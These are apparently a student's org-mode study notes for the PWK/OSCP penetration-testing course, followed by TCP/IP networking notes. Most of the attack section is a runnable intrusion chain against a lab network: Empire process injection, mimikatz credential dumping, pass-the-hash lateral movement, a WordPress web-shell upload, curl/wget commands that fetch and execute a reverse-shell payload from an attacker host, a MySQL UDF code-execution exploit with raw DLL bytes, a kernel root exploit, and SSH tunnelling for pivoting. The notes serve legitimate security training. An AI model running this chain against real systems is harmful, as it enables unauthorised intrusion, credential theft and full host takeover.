(Empire: S2Y5XW1L) >
(Empire: S2Y5XW1L) > ps
(Empire: S2Y5XW1L) > psinject http <PID>
  # migrate to another process, e.g. explorer.exe
(Empire: S2Y5XW1L) > agents
  # interact with the new agent migrated.
    #+end_src
    
** PowerShell-Empire Modules
   + info:
     - =usemodule= + <space> + <tab>
       
*** Setuational Awareness (module) (untested)
   + src:
   #+begin_src empire
(Empire:2Y5XW1L) > usemodule situational_awareness/network/powerview/get_user
(powershell/situational_awareness/network/powerview/get_user) > info
(powershell/situational_awareness/network/powerview/get_user) > execute
   #+end_src
   + worth mentioning:
     - the *Bloodhound* module
     #+begin_quote
collecting all computers, users, and groups in the domain as well as all currently logged-in users. The output is stored in CSV files suitable for use with the backend BloodHound application, which uses graph theory to highlight often-overlooked and highly complex attack paths in an Active Directory environment.
     #+end_quote
     
*** Credentials and Privilege Escalation (modules) (untested)
    + info:
      - privesc/powerup/allchecks
        - a module tries to escalate normal user to admin
      - privesc/bypassuac_fodhelper
        - a module to bypass UAC and launch a high-integrity PowerShell Empire agent.
        - useful with a local-admin account.
      - credentials/

    + src:
    #+begin_src empire
(Empire: powershell/situational_awareness/network/powerview/get_user) > usemodule powe rshell/privesc/powerup/allchecks
(Empire: powershell/privesc/powerup/allchecks) > execute
    #+end_src
    #+begin_src empire
(Empire: K678VC13) > usemodule credentials/mimikatz/logonpasswords
(Empire: powershell/credentials/mimikatz/logonpasswords) > execute
(Empire: K678VC13) > creds
  # list creds in credential store
    #+end_src
    
*** ...Lateral Movement (module) (PWK 740) (untested)
    + info:
      - lateral_movement/
    + src:
    #+begin_src empire
(Empire: K678VC13) > usemodule lateral_movement/invoke_smbexec
(Empire: powershell/lateral_movement/invoke_smbexec) > info
(Empire: powershell/lateral_movement/invoke_smbexec) > set ComputerName client251
(Empire: powershell/lateral_movement/invoke_smbexec) > set Listener http
(Empire: powershell/lateral_movement/invoke_smbexec) > set Username jeff_admin
(Empire: powershell/lateral_movement/invoke_smbexec) > set Hash e2b475c11da2a0748290d87aa966c327
(Empire: powershell/lateral_movement/invoke_smbexec) > set Domain corp.com
(Empire: powershell/lateral_movement/invoke_smbexec) > execute
(Empire: K678VC13) > agents
    #+end_src
        
** Switching Between Empire and Metasploit
   + info:
     - Assume an Agent/Meterpreter-session is alive.
     - Upload a binary generated by msfvenom.
     - Execute the binary on the targeted machine.
   
   + src:
     - msf (empire -> msf)
   #+begin_src msf
# msfvenom -p windows/meterpreter/reverse_http LHOST=10.11.0.4 LPORT=7777 -f exe -o met.exe
msf5 > use multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf5 exploit(multi/handler) > set LPORT 7777
msf5 exploit(multi/handler) > set LHOST 10.11.0.4
msf5 exploit(multi/handler) > run
   #+end_src
     - empire (empire -> msf)
   #+begin_src empire
Empire: S2Y5XW1L) > upload /home/kali/met.exe
Empire: S2Y5XW1L) > shell dir
  # Directory: C:\Users\offsec.corp\Downloads>
  # ...
(Empire: S2Y5XW1L) > shell C:\Users\offsec.corp\Downloads>met.exe
   #+end_src

     - empire (msf -> empire)
   #+begin_src empire
(Empire: listeners) > usestager windows/launcher_bat
(Empire: stager/windows/launcher_bat) > set Listener http
(Empire: stager/windows/launcher_bat) > execute
   #+end_src
     - msf (msf -> empire)
   #+begin_src meterpreter
meterpreter > upload /tmp/launcher.bat
meterpreter > shell
C:\Users\offsec.corp\Downloads>dir
C:\Users\offsec.corp\Downloads>launcher.bat
   #+end_src
   
* TODO Book3_Chapter 24 Assembling the Pieces: Penetration Test Breakdown
  
** Public Network Enumeration (nmap)
   - src:
   #+begin_src bash
sudo echo '10.11.1.250 sandbox.local' >> /etc/hosts
sudo nmap -sC -sS -p- -oA outFile sandbox.local
  # -sC use default script
  # -sS SYN scan for faster run time
  # -p0-65535 or -p- scan all ports
  # -oA <fileName> save the result in all(txt, XML, greppable) formats
   #+end_src
*** TODO when to use -A -sV
    
** Targeting the Web Application
   1. visit the homepage
   2. dirb http://sandbox.local
      
*** TODO dirb frequently used params
     
** Targeting the Web Application
   3. (try find the default entries of the application)
   4. check possible plugins entries, maybe try an application specific  scanner
     - src (wordpress example):
     #+begin_src sh
wpscan --url sandbox.local --enumerate ap,at,cb,dbe
  # enumerate: ap All Plugins, at All Themes, cb Config Backups, dbe DB Exports
  # wp-survey-and-pool
     #+end_src
   5. searchsploit the scan result, i.e. the plugins. Use generic keywords (searchsploit wordpress survey poll). Check the detail if Hit.
   6. find the possible vulnerable component. Setup Burp and intereact.
      
*** TODO burp
    + repeater

** Targeting the Web Application
   
*** TODO SQL Injection Exploitation (PWK p760)
    + meta keywords: @@version 
    + meta tables: 
      - information_schema.tables
        + =SELECT table_name from information_schema.tables=
      - information_schema.columns
        + =SELECT column_name from information_schema.columns WHERE table_name='...'=
    + SELECT 1,2,3,column_name,4 FROM information_schema.columns WHERE ...
      - the =SELECT 1,2,3 FROM <table>= returns 1,2,3. Use this to reveal the channel that will be displayed on the screen. For example, if only 3 is shown, then inject SELECT 1,2,column_name FROM information_schema.table
        
*** Cracking the Password -> wordpress admin account
    + wordlist: /usr/share/wordlists/rockyou.txt.gz
    #+begin_src sh
echo "$P$BfBIi66MsPQgzmvYsUzwjc5vSx9L6i/" > pass.txt
## John the Ripper
john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt
    #+end_src
    
*** wordpress admin interface -> more info && web-shell(wp plugin)
    1. enumerate admin interface -> backend server arch && db host && user
    2. plugin-shell
       - /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php
       - zip the file and upload as plugin using admin gui interface.
       - wp default plugin folder: wp-content/plugin
       #+BEGIN_SRC sh
curl http://host/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
       #+END_SRC
       
*** webshell -> reverse-shell
    #+BEGIN_SRC sh
## generate an executable
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=443 -f elf > shell.elf

## transfer the executable
sudo python3 -m http.server 80
curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.ph p?cmd=wget%20http://10.11.0.4/shell.elf

## chmod [a]+x <exec> (encodeURIComponent(str). '+' -> '%2B'. )
## not encodeURI(), which ignores more chars (protocol related, e.g. + @ /)
curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.ph p?cmd=chmod%20%2bx%20shell.elf

## start the listener
sudo msfconsole -q -x "use exploit/multi/handler;\
  set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
  set LHOST 10.11.0.4;\
  set LPORT 443;\
  run"

## invoke the executable
curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.ph p?cmd=./shell.elf
    #+END_SRC
    
*** Post-Exploitation Enumeration
**** enum meta infos
     + info:
       - general enumeration
       - [[https://stackoverflow.com/questions/16956810/how-do-i-find-all-files-containing-specific-text-on-linux][grep file content recursively]]
     + src:
     #+BEGIN_SRC sh
meterpreter > shell
ifconfig # ip address
hostname # ajla
cat /etc/issue # Ubuntu 20.04.2 LTS \n \l
cat /proc/version # Linux version 5.8.0-53-generic ...
pwd # /var/www/html/wp-content/plugins/plugin-shell
cd /var/www/html
ls -lah
cat wp-config.php # find config file, or:
grep -rnw '/path/to/somewhere/' -e 'PASSWORD' 
  ## grep files that contain the string 'PASSWORD'
  ## -r recursive, -n line number, -w match the whole word, -e pattern
      #+END_SRC

**** TODO (optional) python interactive shell?
     + ref:
       - [[https://unix.stackexchange.com/questions/21752/what-s-the-difference-between-a-raw-and-a-cooked-device-driver][stty raw -echo]]

     + src:
     #+BEGIN_SRC sh
python -c 'import pty;pty.spawn("/bin/bash");'
  ## C-z to background, then:
stty raw -echo
  ## fg 

  ## ?
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116
reset
     #+END_SRC

**** TODO enum opened port (bash: /dev/tcp/host/port) (portscan.sh)
     + info:
       - use a bash specific feature to enumerate opened ports of internal nodes.
       - when used in redirection, bash handles "/dev/tcp/host/port" differently. see: [[https://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html#Redirections][bash redirections]]
       - (check DB default port first maybe)
       - TODO use remote dynamic port forwarding, then use namp with proxy to scan service host? `ssh -R 1080 kali@ip`, `nmap -sS -sC -oG 10.5.5.11 --proxy 127.0.0.1: 1080`, but beware the amount of traffic.
     + src:
     #+BEGIN_SRC bash
#!/bin/bash
# hosts=(127.0.0.1 127.0.0.2 127.0.0.3)
hosts=(10.5.5.11)   ## DB_HOST
# ports=(22 23 25 80)
# timeout .1 bash -c "echo > /dev/tcp/$host/$port" && echo "port $port is open, host $hosts"
for host in "${hosts[@]}"; do
  # for port in "${ports[@]}";
  for port in {1..65535}; do
    timeout .1 bash -c "echo 2>/dev/null > /dev/tcp/$host/$port" &&
      echo "port $port is open, host $hosts"
  done
done
echo "Done"
# (PWK p778)
     #+END_SRC

**** (optional) upload the file
     + info: several methods?
       - use meterpreter upload
       - use webshell to write directly
       - use wget to download from http server
     + src:
     #+BEGIN_SRC bash
# meterpreter > upload /home/kali/portscan.sh /tmp/portscan.sh
# meterpreter > shell
cd /tmp
chmod +x portscan.sh
./portscan.sh
     #+END_SRC
     
**** ssh port forwarding (remote)
     + ref: [[ssh port forwarding]]
     + info: 
       - use ssh REMOTE port forward. Since the aim is to access DB_HOST from public.
       - use params to remove confirmations, since the shell may not be fully interative.
       - result: localhost:13306, localhost:1122 points to the remote DB server ( the DB endpoint which the wp server must be allowed to access). Check with `sudo netstat -tulpn`. 
     + src:
     #+BEGIN_SRC sh
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o
"StrictHostKeyChecking=no" -i /tmp/key_id_ed25519 kali@10.11.0.4
  # -f run at bg before command execution (detached from the current shell).
  # -N no command (just forwarding, return no shell)
     #+END_SRC
     
**** generate temporary ssh-key and connect
     + info:
       - security reason, maybe do not want to use password on a compromised machine
     + src:
     #+BEGIN_SRC sh
mkdir -p /tmp/keys
# ssh-keygen -t rsa -b 4096
ssh-keygen -t ed25519
  # save to /tmp/keys/id_ed25519
cat /tmp/id_ed25519.pub
  # on host, modify ~/.ssh/authorized_keys
cat << EOF >> ~/.ssh/authorized_keys
from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",
no-agent-forwarding,no-X11-forwarding,no-pty ssh-ed25519 AAA...
EOF
     #+END_SRC
     
** Targeting the Database
   + check version. If updated, check else.
     
*** TODO Application/Service Enumeration (mysql udf exploit)
    + TODO: try udf
    + requirement: Write permission
    + ref(mysql-UDF): [[./ref/b3cp24_44139-mysql-udf-exploitation.pdf][mysql-udf-exploitation]]
    + info:
      - use mysql load_file() to load udf to a specific path(@@plugin_dir, or @@datadir\bin, %SystemRoot%\system32). 
      - file content from network paths, or write hex to file.
        #+begin_src sql
select hex(load_file('/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.dll')) into dumpfile '/tmp/udf.hex';
        /* (ref p7) */
        #+end_src
      - or write binary to a table (or select $binary into dump file "$plugin_dir"?)
      #+begin_src sql
create table temp(data longblob);
insert into temp(data) values 
(0x4d5a90000300000004000000ffff0000b800000000000000400000000000000000000000000000000000000000000000000000000000000000000000f00000000e1fba0e00b409cd21b8014ccd21546869732070726f6772616d2063616e6e6f742062652072756e20696e20444f53206d6f64652e0d0d0a2400000000000000000000000000000);

update temp set data = concat(data,0x33c2ede077a383b377a383b377a383b369f110b375a383b369f100b37da383b369f107b
375a383b35065f8b374a383b377a382b35ba383b369f10ab376a383b369f116b375a383b369f111b376a3
83b369f112b376a383b35269636877a383b30000000000000000000000000000000050450000648606007
0b1834b00000000);

select data from temp into dump file "D:\\MySQL\\mysql-5.7.21-winx64\\mysql-5.7.21- winx64\\lib\\plugin\\udf.dll";
      #+end_src
      - or use to_base64 function > MySQL 5.6.1/MariaDB 10.0.5
      #+begin_src sql
select to_base64(load_file('/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.dll')) into dumpfile '/tmp/udf.b64';
select
from_base64("TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA... ")
into dumpfile "D:\\MySQL\\mysql-5.7.21-winx64\\mysql-5.7.21-
winx64\\lib\\plugin\\udf.dll";
/* Q: ref p9 the modified dll content? binary-walk */
      #+end_src

    + src basic-enum:
    #+BEGIN_SRC sh
mysql --host=127.0.0.1 --port=13306 --user=wp -p [password]
    ## the MariaDB command-line tool
    
MariaDB [(none)]> SHOW Grants;
MariaDB [(none)]> SHOW variables;  # system variables, require no permission.
## ...
## | hostname   | zora              |
## | plugin_dir | /home/dev/plugin/ |
## | tmpdir     | /var/tmp          |
## | version    | 10.3.20-MariaDB   |
## | version_compile_machine     | x86_64 |
# (PWK p781)
    #+END_SRC
    + src searchsploit:
    #+begin_src sh
searchsploit mariadb
searchsploit mysql
  # UDF occur multiple times
    #+end_src

**** udf sql commands
     + info:
       - some sql commands to install, verify, delete an udf.
       - more commands by walking the dll binary.
     + src:
     #+begin_src sql
/** install */
create function sys_eval returns string soname 'udf.dll';
/** verify */
select * from mysql.func where name = 'sys_eval';
/** delete */
drop function sys_eval;
/** run */
select sys_eval('dir');
     #+end_src

** (the PWK way)
     + ref:
       - the original udf assume `--secure-file-priv=''`, in which case the udf escalate privilege. In this case the initial user does not have the (FILE) write permission.
       - About .so shared libraries, soname, etc.: [[https://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html][shared-libraries]]
       - About sql permissions: [[https://dev.mysql.com/doc/refman/8.0/en/grant.html][mysql GRANT]]
     + info:
       - regarding to the unknown binary, the exploit referenced [[https://www.exploit-db.com/exploits/1518]]
       - compile the .so file, in which exists a do_system(...) function. pull necessary dependencies and compile.
       #+begin_src sh
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
  ## gcc options:
  ## ref: man 1 gcc (gcc-doc)
  ## ref: [[https://man7.org/linux/man-pages/man1/gcc.1.html][man 1 gcc]]
  ## -g: Produce debugging information in the operating system's native format (stabs, COFF, XCOFF, or DWARF). GDB can work with this debugging information.
  ## -c: run no linker
  ## -shared: (linker option) produce a shared object which can then be linked with other object to form an executable.
  ## -Wl,options...: Pass a comma separated option-list to the linker.
  ## -Wall: This enables all the warnings about constructions that some users consider questionable, and that are easy to avoid (or modify to prevent the warning), even in conjunction with macros. This also enables some language-specific warnings described in C++ Dialect Options and ...
       #+end_src
       - hex dump the shared object into the plugin directory
       #+begin_src sh
xxd -ps raptor_udf2.so | tr -d '\n' > raptor_udf2.so.hex
MariaDB [(none)]> set @shell = 0x7f454c...<hexContent>;
MariaDB [(none)]> select @@plugin_dir;
MariaDB [(none)]> select binary @shell into dumpfile '/home/dev/plugin/udf_sys_exec.so';
  ## ERROR 1045 (28000): Access denied for user 'wp'@'%' (using password: YES)
  ## i.e. cannot write file. lacking FILE permission. Need other routines.
       #+end_src
       
** Deeper Enumeration of the Web Application Server (the wp server)
   + info:
     - the aim is to gain write permission on the DB Server.
   + src (kernel version enumeration):
   #+begin_src sh
netstat -tulpn
  ## other services running on a same server?
uname -a
  ## 4.4.0-21-generic
  ## the possibility of kernel exploit?
searchsploit ubuntu 16.04
  ## Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Loca | exploits/linux/local/45010.c
  ## try the exploit
   #+end_src
   + src (compile and try the kernel exploit):
#+begin_src sh
gcc
find / -name gcc -type f 2>/dev/null
  ## is gcc installed on the target machine?
  ## no gcc -> compile and transfer the binary.
cp /usr/share/exploitdb/exploits/linux/local/45010.c ./
gcc 45010.c -o 45010
meterpreter > upload /home/kali/45010 /tmp/
meterpreter > shell

cd /tmp
chmod +x 45010
./45010
whoami
  ## root (a perfect-world scenario...)
#+end_src
   + src (migrate to a more stable connection, a ssh bind shell(or reverse)):
   #+begin_src sh
  ## on kali 
ssh-keygen                # save harzard
cat ~/.ssh/id_rsa.pub

  ## on the wp server
mkdir -p /root/.ssh
echo "ssh-rsa AAAA....<pkContent>" >> /root/.ssh/authorized_keys
   #+end_src
   
*** Searching for DB Credentials
    + info:
      - enum with root privilege.
      - `/var/log/auth.log`
      - `ls -lah /home/ajla`
      - `/home/ajla/.bash_history`
        ## in this scenario, the admin leaves the root pw in the command history

** Targeting the Database Again  
   + info:
     - connect the DB with root credentials
     - use udf to gain shell
   + src (udf):
   #+begin_src sql
select binary @shell into dumpfile '/home/dev/plugin/udf_sys_exec.so';
create function sys_exec returns int soname 'udf_sys_exec.so';
select * from mysql.func where name='sys_exec';

/** on kali */
/** sudo python3 -m http.server 80 */

/** on DB server, sys_exec -> do_system */
select sys_exec('wget http://10.11.0.4');
select sys_exec('chmod +x ./shell.elf');

/** on kali */
/** TODO use stand-alone multi/handler
sudo msfconsole -q -x "use exploit/multi/handler;\
set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
set LHOST 10.11.0.4;\
set LPORT 443;\
run"
*/

/** on DB server */
select sys_exec('./shell.elf');
   #+end_src
   
*** Post-Exploitation Enumeration (the mysql server, root)
    + src:
    #+begin_src sh
cat /etc/issue
cat /proc/version
env
  ## list environment variables
ps aux
netstat -tulpn       ## full reveal requires root
cat /etc/fstab
  ## //10.5.5.20/Scripts /mnt/scripts cifs uid=0,gid=0,username=,password=,_netdev 0 0
ls /mnt/scripts
  ## found some files
cat system_report.ps1
    #+end_src
    
*** remote port forward, SOCKs && proxychains
    + src-SOCKS:
    #+begin_src sh
  ## zora
ssh-keygen
cat /path/to/pk.pub

  ## kali
cat << EOF >> ~/.ssh/authorized_keys
from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC4c jmvS... mysql@zora
EOF

  ## zora, the -R without [host] specified create a SOCKS proxy on localhost:1080 on kali
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa kali@10.11.0.4
sudo netstat -tulpn
    #+end_src
    + src-proxychains:
    #+begin_src sh
  ## kali, edit /etc/proxychain.conf
[ProxyList]
socks4 127.0.0.1 1080
  ## (PWK p799)
    #+end_src
     
*** nmap with proxychains
    + ref: [[https://security.stackexchange.com/questions/120708/nmap-through-proxy/120723#120723][nmap-through-proxy]]
    + info:
      - SOCKS4 proxy TCP only. Hence ICMP ping is not reachable (use -Pn).
      - SOCKS5 may extend to UDP.
    + src:
    #+begin_src sh
proxychains nmap --top-ports=20 -sT -Pn 10.5.5.20
  ## -Pn disable pinging, since ICMP is not TCP
  ## -sT perform a connect scan, since TCP only
  ## Result:
  ## PORT STATE SERVICE
  ## ...
  ## 135/tcp open msrpc
  ## 139/tcp open netbios-ssn
  ## ...
  ## 445/tcp open microsoft-ds
  ## ...
  ## 3389/tcp open ms-wbt-server
  ## ...
    #+end_src
    
**** login to the remote desktop (rdp, 3389)
    + info:
      - the port scan reveal 135, 139, 445, 3389 open.
      - where as 53 usually used as DNS, usually opened on DC (reference?)
    + src:
    #+begin_src sh
proxychains xfreerdp /d:sandbox /u:alex /v:10.5.5.20 +clipboard
  ## /d:domain
  ## /u:[[domain\]user|user[@domain]]
  ## /v:server[:port]
  ## +clipboard, Active clipboard redirection
  ## /p:password
    #+end_src
    
*** TODO SOCKS
    + ref:
      - [[./ref/b3cp24_understanding-implementing-socks-server-guide-set-socks-environment_2326.pdf][socks basic (a giac paper)]] (p7, the "CONNECTION"; p8, a global socks proxy (client) manipulate TCP stack)
    + questions:
      - pkg encrypted or cleartext
      - SOCKS5 auth flow, how does the credential exchange works.

*** TODO proxychains
    + ref: [[https://man.cx/proxychains][proxychains]]
    + src:
    #+begin_src sh
proxychains <program>
    #+end_src
    
    
*** Post-Exploitation Enumeration (Windows)
    + info:
      - the enum, after login with the rdp
      - check/disable any existing AV
    + src:
    #+begin_src cmd
systeminfo
  ## HOSTNAME
  ## OS Version
  ## Registered Owner
  ## Domain
  ## IP address(es)
  
netstat -ano
  ## -a, displays all connestions and listening ports
  ## -n, displays addresses and port numbers in numerical form
  ## -o, displays the owning process ID associated with each connection
  ## check State = LISTENING ports
  ## check port below 49152, see: "Ephemeral port"
(tasklist /fi "pid eq 5712")
net user /?
net user /domain
  ## list all domain user
net user <UserName> [/DOMAIN]
net user /domain <User name> (?)
  ## Global Group memberships       *Domain Users
    #+end_src
    // continue p807
    
**** Ephemeral port (short live port)
     + info:
       - [[https://en.wikipedia.org/wiki/Ephemeral_port][wiki: Ephemeral port]]
       - IANA suggests 49152-65535 (2^15 + 2^14 to 2^16 -1)(windows) for dynamic or private ports

* TODO list
  + AD, LDAP enum users
  + AD, enum flow
  + nmap: quick, full
  + dirb, simple util && advanced util
  + lfi
  + overflow
    - offset - length
    - half offset
  + log inject
  + sqlmap&msf op -> .
  + pw basic
  + msf tools fast access
  + AV bypassing
    - with Admin, util scripts to turn off Windows Defender && firewall
    - without Admin, obfuscation, string substitution.
  + pivoting: ssh port-forward (local, remote, dynamic)
  + useful linux file structure (/proc, /dev)
  + stand-alone multi/handler and payload
     
** boxes
   1. ensure 100% with msf.
   2. same exploit manually.
   3. different routines.
     
** exam preparation
   1. read and summarize about the topics in the syllabus (possible routines, methods, tools)>
   2. use tools on boxes.
      

** flows:
*** PWK cp24
    - `sudo bash -c "echo '10.11.1.250 sandbox.local' >> /etc/hosts"`
    - nmap `sudo nmap -sC -sS -p0-65535 sandbox.local` -> web application
    - `dirb http://sandbox.local`
    - application specific scanner `wpscan --url sandbox.local --enumerate ap,at,cb,dbe` ## plugins
    - find the right keywords and target(wp plugins)`searchsploit survey poll`
    - follow the exploit, TODO Burp and SQL Injection (PWK p755) `OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,table_name,11 FROM information_schema.tables#"]`
    - the SQL Injection -> wp username and pw hash
    - (try to crack the pw -> get the wp pw) `echo "$P$BfBIi66MsPQgzmvYsUzwjc5vSx9L6i/" > pass.txt`
    - `john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt`
    - wp admin -> wp plugin PHP reverse shell. (upload and install)
    - `seclists/Web-Shells/WordPress/plugin-shell.php`
    - use curl/wget to upload payload. -> reverse shell
    - enum server. in `wp-config.php` find DB server info.
    - use bash `portscan.sh` to enum the open ports
    - ssh Remote port forward the DB port.
    - find mysql exploits -> udf -> need write permission
    - kernel exploit on the wp server -> root -> sql root pw from the command history -> udf to get the shell from the sql server

* Book4_Chapter 01 An Introduction to TCP/IP
** a brief history
   + initially devices exchange info through a common communication controller 
     - ~network node -> communication controller -> network node~
   + with TCP/IP, devices could function as a network end-point

*** the internet today
   + Toplevel Internet Service Providers(ISPs)
   + Regional Internet Access Providers(IAPs)
   + End-User Nets


** TCP/IP architecture
   #+begin_quote
   TCP/IP is a collection of of protocols that range from application-specific functions like web
browsing down to the low-level networking protocols like IP and TCP.
   #+end_quote

*** OSI reference model 
    + presentation
      - other detailed transmission utility service that applications may or may not use. e.g., data-compression.
      - since it is better to have a dedicated session layer that purely manage sesions, hence separate the optional services into the presentation layer.
    + session
      - responsible for establishing, and later destroying connections between systems, applications, or users. It may receive the request from any higher layer, and then negotiate a connection using the lower layers. Once a connection is established, the layer simply provides an interface for the higher layers to communicate with.
    + transport
      - may provide reliability services usually lacking from the network layer, for basic transmission services.
    + network
      - identify the addresses of systems on the network, and the actual transmission of data between the systems.
      - must be aware of the physical nature of the network, and package the information in a format that can be further transmitted by the data-link layer.
    + data-link
      - must deal with possible physical layer error, either attempting to retransmit or report the failure to the network layer.  
    + physical
      - strict standards for the wiring systems, specifying e.g., voltage, impedance, etc.

*** TCP/IP basic
    + IP <-> OSI-network-layer
    + TCP or UDP <-> OSI-transport-layer, manage connections.
      - the session management is handled by TCP in browsing.
      - TCP/IP does not provide a formal presentation layer service(e.g. data compression) that an application *must* use, but do provide a few presentation layer service(IBM's NetBIOS, Sun's XDR) that an application *may* use.
    + ? data-link layer
      - data-link protocols are specific to wire, e.g. voltage, 
      - Media Access Control(MAC)
      - Data-Link Connection Identifier(DLCI)
        
**** Data-Link Services
     + implemented by each physical network, the implemetation might different depending on the physical medium. IP datagram is translated to a format that can be understand and delivered in the physical layer.
       
**** the Internet
     + on each local network, data-link or physical level:
       #+begin_quote
       When an IP-enabled device wants to send data to another IP node, the data-link services on that device convert the IP datagrams into a format usable by the local network medium, and then send the data to the destination system using the addressing and framing mechanisms *dictated by the network*.
       #+end_quote
     + Also, IP assume data packets are unreliable and would get lost.

**** the address resolution protocol(ARP)
     + two IP devices must locate each other's hardware addresses before any data exchange. An protocol applicapable to all physical network topology is needed.
     + ARP(who is .40?) -> Response with Hardware Address(I am .40)
      
**** the Internet Control Message Protocol(ICMP)
     + ICMP relies on IP, deliver control message backward.
     + ICMP error message are only sent when there is a detectable problem that is preventing certain packets or datagrams from being delivere due to a specific reason. It indicates that the esnding host should probably stop trying to sent those kinds of datagrams to this specific destination system, or that a different path should be used. 

**** IP datagrams vs. IP packets
     + IP datagram is a more abstract concept, while packets are what been sent in data-link layer:
       #+begin_quote
       IP datagrams get sent as IP packets, which are used to relay the IP data- grams to the destination system, one hop at a time. Although in many cases an IP datagram and an IP packet will be exactly the same, they are conceptually different entities.
       IP datagrams contain whatever data is being sent (and the associated IP headers), while IP packets are used to get the datagram to the destination system (as specified in the IP headers).
       #+end_quote

     + i.e., say: src -> router -> dst, then: src send datagrams to dst, while src send packets to router, in those packets contains datagrams.
       #+begin_quote
       These IP packets are sent using the framing mechanisms defined for the specific network medium in use on the local network, and are sub-ject to network events such as fragmentation or loss. However, the datagram itself will always remain as the original piece of data that was sent by the original sender, regardless of anything that happens to any of the packets that are used to
relay the datagram.
       #+end_quote
     + for example, a 4kb datagram being sent might be too big to fit in a simple frame for transmition in a dial-up access network, hence, the datagram might be split into four IP packets, each of which are sent as individual entities in individual frames. Then on the destination system, once all of the IP packets are received, into the original datagram they will be reassembled and processed.

**** ? nested package and header structure
     + wireshark, 
     + how is segment marked in data-link layer
     + header + data, in each layer.
       
**** ? local loopback network 
     
**** ? routing table, specify router for each destination network.
     + popular protocol popular for private networks
       - Routing Information Protocal(RIP)
       - Open Shrortest Path First(OSPF)
     + those dynamic routing protocols tends to consume a lot of CPU cycles, hence are often ran on routers instead of the host
       - set destination 0.0.0.0 <= default router(e.g., 192.168.100.100), on system boot using protocol such as BOOTP or DHCP, or protocol called Router Discorery 
          
**** ? Route aggregation Q: super route, how to separate local vs internet
     + the routing table method cost lots of resources, is not applicable to Internet.
     + address assignment scheme, separate by physical location, leave routing to ISP, only a few(50,000 routes) super-routes need to be suggested. 

**** datagram independence
     + IP networks treat every individual IP datagram as an independent entity, which means they might take whatever path that the router deems fit when forwarding the datagram.

**** datagram/packet intergrity
     + a *packet* will always be inspected when it arrives a system(including a router) along the delivery path. If corruption or any transient errors is detected, the packet will be destroyed immediately. If a semi-permanent problem, e.g., no rounting table entry for the next destination network is found, is dectected, the IP may also use the Internet Control Message Protocol(ICMP) to return the error message back to the original sender.
     + ? header checksum: Q: on each packet or each datagram?

**** header checksums(the checksum *for the IP header* in the IP header)
     + in every package header, for the header itself, not for the body
     #+begin_quote
     Every device that receives an IP datagram must examine the IP header and compare that information with the value stored in the header's checksum field.
     The data portion ... is not verified, for three reasons:
     #+end_quote
       1. for efficiency.
       2. the data portion always consists of a higher-level datagram, e.g., TCP/UDP. Since those portocol might also provide error-checking routines, the data portions might be examed later anyway.
       3. not all but some high level applications might be able to work with corrupted data, discard those then might be disservice
          
**** time-to-live
     + the time-to-live field in the IP header.
       #+begin_quote
       Every system that forwards the packet decreases the value of the Time-to-Live field by one, before sending the datagram on. If the Time-To-Live value reaches zero before the datagram gets to its final destination, then the gacket is destroyed.
       The purpose of the Time-to-Live field is to keep datagrams that are caught in an undeliverable loop from tying up network resources. ... This safeguard prevents routing loops from causing network meltdowns.
       ...
       The strict definition of the Time-to-Live field states that the value is a measure of time in seconds, or any forwarding act that took less than one second to perform. However, there are very few Internet routers that require a full second to perform forwarding, so this definition is somewhat misrepresentative. In actual practice, the Time-to-Live value is decremented for every hop, regardless of the actual time required to forward a datagram from one network segment to another.
       #+end_quote
       
     + the default
       #+begin_quote
       The default value for the Time-to-Live field should be set to 64 according to the Assigned Numbers registry([[http://www.iana.org/][IANA]]). In addition, some of the higher-layer protocols also have default Time-to-Live values that they are supposed to use(e.g., 64 for TCP, and 1 for IGMP). These values are really only suggestions, ... .
       #+end_quote
       
**** fragmentation and reassembly
     + Maximum Transmission Unit(MTU): the maximum bytes in a single frame.
       #+begin_quote
       Ethernet can pass only 1500 bytes in a single frame, while the typical MTU for 16-Mb/s Token Ring is 17,914 bytes per frame.
       RFC 791 specifies that the maximum allowed MTU size is 65,535 bytes, and that the minimum allowed MTU size is 68 bytes. 
       #+end_quote
     + if datagram > maximum 8 byte alignment to MTU, need to be fragmentated. For example, a 4464-byte datagram(20 bytes header + 4444 bytes data) senting to a network where MTU = 1500, will be fragmented to (20 bytes header + 1480 data)*3 + (20 bytes header + 4 bytes data)*1.
     + in the header:
       - 16-bit Fragment Identifier(like a very short uuid), same for all fragments of a datagram.
       - the Fragmentation Offset, counting by the No.s of 8 bytes blocks.
       - 3-bit Flags field: Reserved(must be marked 0), (the packet) May be further Fragmented Flag(0 if possible), More Fragments(0 if no more)
     + the IP software find the first packet whose fragment offset field is 0, and find the last packet whose More Fragments flag is 0, and assemble the rest in order, once all of the segments arrives.
       
**** prioritization and service-based routing
     + 8-bit type of service(TOS) field, or the TOS byte
       - 3-bit(0-7) precedence field marking prioritization (8 levels of prioritization)
         | Precedence | Definition           |
         |------------+----------------------|
